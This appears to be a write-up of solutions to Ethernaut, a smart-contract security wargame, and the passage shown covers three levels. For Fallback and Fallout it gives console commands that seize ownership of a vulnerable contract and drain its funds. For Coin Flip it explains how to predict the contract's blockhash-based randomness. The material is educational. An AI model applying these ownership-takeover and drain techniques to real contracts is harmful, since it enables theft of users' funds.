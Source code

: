 # Ethernaut Solutions

## Level 1 - Fallback

Exploiting faulty logic that allows taking posession of the contract. 

```
  // 'fallback' function sets contract owner to msg.sender
  // can be used to take control of the contract
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

By satisfying the condition in the fallback function, the contract can be hijacked.

```
// Get current contract owner
await contract.owner();

await contract.contribute({ value: 1 });
// use the sendTransaction function to make a call to the contract

// trigger the fallback by sending Ether with no msg.data
await contract.sendTransaction({ value: 1 });

// Get current contract owner (should be your address now)
await contract.owner();

// Call the withdraw function and drain the funds
await contract.withdraw();
```

## Level 2 - Fallout

The contract does not correctly supply a constructor function. Instead a publicly callable function is set that allows anyone to call the function and take ownership of the contract.

```
// Get current contract owner
await contract.owner();

// Call the Fal1out() function
await contract.Fal1out();

// Get current contract owner
await contract.owner();
```

## Level 3 - Coin Flip

The contract attempts to generate randomness via blockhash and a state variable to determine the outcome of a coin flip. The problem is that it is possible to calculate in advance what the outcome of the 'random' flip will be with the given inputs to the coinFlip function. By deploying a custom contract that conditionally calls the target contract's flip() function only when the expected outcome matches the desired result, the goal of reaching 10 consecutive wins is possible.


